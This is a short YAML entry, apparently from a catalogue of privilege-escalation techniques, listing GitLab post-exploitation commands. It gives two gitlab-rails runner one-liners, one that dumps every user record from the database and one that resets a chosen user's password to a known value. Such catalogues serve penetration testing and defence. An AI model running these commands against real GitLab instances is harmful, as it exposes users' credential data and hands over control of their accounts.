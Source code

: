 ```yaml
---
functions:
  privilege-escalation:
    - description: Simple Gitlab Privesc Technique
      code: |
        Dump the Database:
        gitlab-rails runner 'User.where.not(username: "peasssssssss").each { |u| pp u.attributes }'

        Change Passwords:
        gitlab-rails runner 'user = User.find_by(name: "dude"); user.password = "adminpassword"; user.password_confirmation = "adminpassword"; user.save!'
---
```

